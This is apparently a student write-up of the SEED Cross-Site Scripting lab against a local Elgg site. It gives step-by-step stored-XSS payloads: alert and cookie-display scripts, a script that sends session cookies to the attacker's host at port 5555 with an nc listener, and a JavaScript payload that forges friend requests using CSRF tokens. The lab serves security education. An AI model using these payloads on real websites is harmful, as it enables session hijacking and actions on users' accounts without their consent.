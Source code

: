```yaml
---
title: Cross-Site Scripting Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_XSS_Elgg.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the record in `etc/host` on the attacker:

```
10.0.2.4       www.xsslabelgg.com
```

Read the file `/etc/apache2/sites-available/000-default.conf`:

```conf
<VirtualHost *:80>
        ServerName http://www.xsslabelgg.com
        DocumentRoot /var/www/XSS/Elgg
</VirtualHost>
```

It shows that the sources of website `http://www.xsslabelgg.com` are hosted in `/var/www/XSS/Elgg`

# Task 1

For Firefox, `Web Developer` -> `Network` is also useful.

## Task 1.1

Log in with account `alice` and password `seedalice`, then edit `Brief description` module in `Profile` as:

```html
<script>
  alert("XSS");
</script>
```

And save it.

Now, access http://www.xsslabelgg.com/profile/alice from either the server or the attacker, an alert prompts:

![](./alert_succ.png)

# Task 2

Edit the `Brief description` module and save:

```html
<script>
  alert(document.cookie);
</script>
```

When accessing the profile page, it will show the cookie of the log-in user.

When Boby opens the page, it will be

![from the server](./cookie_succ.png)

For Alice herself:

![from the attacker](./cookie_succ_alice.png)

# Task 3

Edit the `Brief description` as:

```html
<script>
  document.write(
    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
  );
</script>
```

It will send an HTTP GET request to the port 5555 on the attacker with `document.cookie` whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

```
nc -l 5555 -v
```

Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM `10.0.2.4`, then it will appear on the attacker:

![](./cookie_port.png)

# Task 4

Try to log in as `alice` and add `samy` as a friend, during the process, `network` tool captures the request:

HTTP header:

```
Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
```

So construct the payload that forges the user's friend request as:

```html
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>
```

Log in with username `samy` and password `seedsamy`. 

Add the code above in `Profile` -> `About me` by `edit html` mode.

Now on the VM `10.0.2.4`, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.